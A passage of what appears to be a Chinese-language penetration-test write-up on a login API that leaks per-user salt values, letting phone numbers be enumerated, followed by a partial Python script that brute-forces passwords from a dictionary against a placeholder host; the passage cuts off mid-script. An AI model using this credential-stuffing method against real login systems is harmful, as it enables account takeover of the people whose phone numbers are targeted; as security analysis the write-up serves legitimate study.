 对登录功能抓包分析后，可以看到在填写用户名密码后，前端发送如下数据包获取cd、salt数据包：

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz2uviam1mj21o60bqjzn.jpg)](https://image.3001.net/images/20180914/1536903440_5b9b49102a441.png)

此处存在salt泄漏风险，可遍历手机号，对于未注册⽤用户，返回值⽆salt，对于已注册⽤户salt值恒定。

而实施撞库，需要先请求得到salt与cd值。然后可从前端代码中得到加密用户名密码过程：

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz2uvufc9bj21o80kedp2.jpg)

pass经过本地md5加密后， 发送至服务端进行登录校验。

**演习：**

因此，我们只需要用脚本，先输入用户名即手机号，请求得到cd、salt值，然后再从密码字典中，取出密码进行md5加密，最后发包请求即可。编写python脚本如下：



```python
#-*- coding=utf-8 -*-

import requests

import hashlib

import json

def GetPass():

fp = open("./pass.txt","r")

if fp == 0:

print ("open file error!")

return;

while 1:

line = fp.readline()

if not line:

break

passwd = line.strip('\n')

Brute_Force_Dididai("150****1403",passwd);

def Brute_Force_Dididai(username,password):

# url = ""

s = requests.Session()

s.headers = {

'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko)Chrome/51.0.2704.103 Safari/537.36',

'X-Requested-With': 'XMLHttpRequest',

}

url = "http://www.foo.com/?m=&s=getcd"

data = {"username":username}
```